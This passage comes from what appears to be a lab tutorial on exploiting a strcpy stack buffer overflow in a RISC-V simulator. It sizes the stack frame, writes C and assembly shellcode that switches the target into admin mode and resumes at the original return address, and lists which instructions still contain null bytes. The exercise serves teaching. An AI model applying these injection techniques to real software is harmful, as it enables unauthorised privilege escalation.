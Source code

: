 A major problem in attack design is that the strcopy() function copies characters until a null byte is met. this means that the **attack code cannot include any commands that contain byte 0x00.**

Since the stack frame is 48+16 = 64 bytes, that will be the message size + terminating NULL to end the string. The malicious stack frame shall have return address that points to stack itself, where the malicious code resides (you should always define stack space as non-executable memory if possible...)

### 2.3.2 First iteration: from C to asm

We'll create general attack code structure using cpulator c compiler, and then later we will fix the 0x00 byte problems.

We want the attack code to change the system to admin mode, and continue from original return address as normally.
Writing a code snippet that does that (ra register should contain return address, and the `ret` instruction is actually `jmp ra`):

```
#define adminMode *(char *)0x4080d4e8
register unsigned int ra __asm__("ra");
void main() {
  adminMode = 1;
  ra = 0x4200b788;
}
```

Fill that to cpulator source code and build. In disassembly view, goto label `main`:

![alt](assets/20250331154943.png)

Test the code: after running

- 0x4080d4e8 memory location should contain `1`
- ra contains 0x4200b788

Then, check for 0x00 bytes (divide the 32bit instructions into 4 x 8bytes). Problems:

- `lui a4,1` has 0x00 within
- `lui ra,0x4200b` has 0x00
- `ret` contains two 0x00's

### 2.3.3 Second iteration: refining asm code

Take the compiled code output and feed it back so cpulator as assembly code:

```
.global _start
_start:

  lui	a5,0x4080d
  li  a4,1
  sb	a4,0x4e8(a5)
  lui ra,0x4200b
  addi ra,ra,0x788
  ret
```
